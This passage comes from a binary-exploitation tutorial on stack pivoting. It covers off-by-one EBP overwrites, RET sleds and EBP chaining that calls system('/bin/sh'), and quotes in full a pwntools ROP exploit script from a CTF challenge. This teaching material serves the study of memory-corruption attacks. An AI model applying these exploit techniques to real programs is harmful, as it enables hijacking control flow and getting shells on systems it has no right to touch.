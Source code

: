 There's a specific variant of this technique known as an "Off-By-One Exploit". It's used when you can **only modify the least significant byte of the EBP**. In such a case, the memory location storing the address to jumo to with the **`ret`** must share the first three bytes with the EBP, allowing for a similar manipulation with more constrained conditions.\
Usually it's modified the byte 0x00t o jump as far as possible.

Also, it's common to use a RET sled in the stack and put the real ROP chain at the end to make it more probably that the new ESP points inside the RET SLED and the final ROP chain is executed.

### **EBP Chaining**

Therefore, putting a controlled address in the `EBP` entry of the stack and an address to `leave; ret` in `EIP`, it's possible to **move the `ESP` to the controlled `EBP` address from the stack**.

Now, the **`ESP`** is controlled pointing to a desired address and the next instruction to execute is a `RET`. To abuse this, it's possible to place in the controlled ESP place this:

- **`&(next fake EBP)`** -> Load the new EBP because of `pop ebp` from the `leave` instruction
- **`system()`** -> Called by `ret`
- **`&(leave;ret)`** -> Called after system ends, it will move ESP to the fake EBP and start agin
- **`&("/bin/sh")`**-> Param fro `system`

Basically this way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [ret2lib](../rop-return-oriented-programing/ret2lib/index.html), but more complex with no apparent benefit but could be interesting in some edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of anoter fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,         # Load leak address in RBP
    LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
